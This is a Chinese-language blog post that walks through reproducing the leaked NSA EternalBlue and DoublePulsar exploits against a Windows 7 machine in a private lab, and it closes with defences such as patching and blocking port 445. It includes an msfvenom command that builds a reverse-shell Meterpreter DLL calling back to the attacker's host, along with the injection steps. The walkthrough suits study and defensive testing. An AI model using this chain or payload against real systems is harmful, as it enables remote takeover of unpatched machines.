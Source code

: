 ```yaml
---
title: NSA Enternalblue + Doublepulsar 复现 SMB 漏洞
date: 2017-04-27 17:18:08
tags: [Enternalblue,Doublepulsar,NSA,SMB,Metasploit]
categories: Exploit
keywords: [Enternalblue,Doublepulsar,NSA,SMB,Metasploit]
---
```


2017年4月14日，Shadow Brokers 再次公开了大量从 NSA 的方程式组织（Equation Group）处窃取的攻击工具，这些工具主要针对 Windows 系统的漏洞，其中还有几个 0 day。工具中的 fuzzbunch 是一个类似于 metasploit 的漏洞利用框架，fb.py 是 fuzzbunch 的入口文件，通过该文件可以调用各攻击模块。

泄露的工具可在 Github 下载：<https://github.com/misterch0c/shadowbroker>

### **0x01 影响范围**

下图中列举了工具中相关模块所影响的服务和系统。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/92526918-file_1493343199647_16966.jpg)

### **0x02 漏洞测试**
下面使用工具中的 fuzzbunch 框架、Eternalblue 和 Doublepulsar 测试 Windows 下的 SMB 漏洞。首先通过 Eternalblue 利用 MS17-010 漏洞攻击 Windows 系统；然后在 Kali Linux 中用 Metasploit 生成一个能建立反向连接的 DLL，并在 Kali 中监听相应端口；最后使用 Doublepulsar 远程注入恶意 DLL 到目标系统，注入成功后 Kali 将与目标系统建立连接。

#### **1. 测试环境**

|     PC     |       IP        |  用途  |        备注        |
|:---------- |:--------------- | ------ | ------------------ |
| Win 7 x64  | 192.168.109.1   | 攻击机 | 需安装 [python2.6](https://www.python.org/ftp/python/2.6.6/python-2.6.6.msi)  和 [pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download) |
| Win 7 x86  | 192.168.109.132 | 靶机   |开启 SMB 服务（445端口）   |
| Kali Linux | 192.168.109.128 | 控制端   | 生成payload 并控制回连会话|
首先需要把工具中的 windows 拷贝到攻击机 Win 7 x64中，然后在 windows 目录下新建一个 listeningposts 文件夹。

#### **2. 测试流程**
##### **1）运行 fuzzbunch 框架**
在 cmd 中进入 windows 目录，运行 `python fb.py`。输入目标系统 IP（Win 7 x86）和攻击机 IP（Win 7 x64），输入“no” 不重定向，接着输入项目名新建一个项目。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/95094523-file_1493344655277_8614.png)   

##### **2）调用 Eternalblue 攻击系统**
运行` use Eternalblue`，然后大多数步骤只需按回车使用默认参数即可。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/54184530-file_1493344922256_adf5.png)   
下面需要选择 `1）FB` 模式。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/61786740-file_1493345114952_f2f3.png)   
接着继续回车，直到成功运行攻击模块。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/73280707-file_1493345362094_157db.png)

##### **3）Metasploit 生成恶意 DLL**
在 Kali Linux 下使用 Metasploit 生成恶意 DLL,它将在目标系统中建立一个反向连接。这里生成的 DLL必须要与目标系统版本一致，下面生成 32 bit 的 DLL。
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=6666 -f dll > test.dll
```
之后需要将生成的 test.dll 拷贝到攻击机的 D:\\下。

##### **4）开启 msf 监听**
在 Kali Linux 下，运行 msf，监听 6666 端口。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/80220500-file_1493346556508_101d9.png)   

##### **5）调用 Doublepulsar 注入 DLL**
回到攻击机中，执行 `use Doublepulsar` ，回车使用默认参数直到选择 Function 为2 注入 DLL，然后指定 DLL 的路径。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/11038492-file_1493347262266_5c5.png)   
注入成功后将返回如下信息。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/68357990-file_1493347997057_2e1f.png)   
但是这里也会出现个问题，多次注入之后目标系统会出错重启。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/56721083-file_1493348716416_6f00.png)

##### **6）建立连接**
DLL 注入到目标系统之后，Kali Linux 将与目标系统建立连接。
![](http://ooyovxue7.bkt.clouddn.com/17-4-28/82624178-file_1493348105266_34db.png)

### **0x03 防御措施**
#### **1. 尽快升级系统补丁**

#### **2. 开启防火墙，并限制 445 端口**
通过以下命令添加防火墙规则：
```
netsh advfirewall firewall add rule name="445" protocol=TCP dir=in localport=445 action=block
```
----
References:   
[1] [NSA工具包之0day Eternalblue 复现笔记](http://blog.injectxx.com/2017/04/18/%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0%E3%80%82/)   
[2] [HOW TO EXPLOIT ETERNALBLUE & DOUBLEPULSAR TO GET AN
EMPIRE/METERPRETER SESSION ON WINDOWS 7/2008](https://www.exploit-db.com/docs/41896.pdf)   
[3] [NSA Fuzzbunch分析与利用案例](https://www.vulbox.com/knowledge/detail/?id=6)
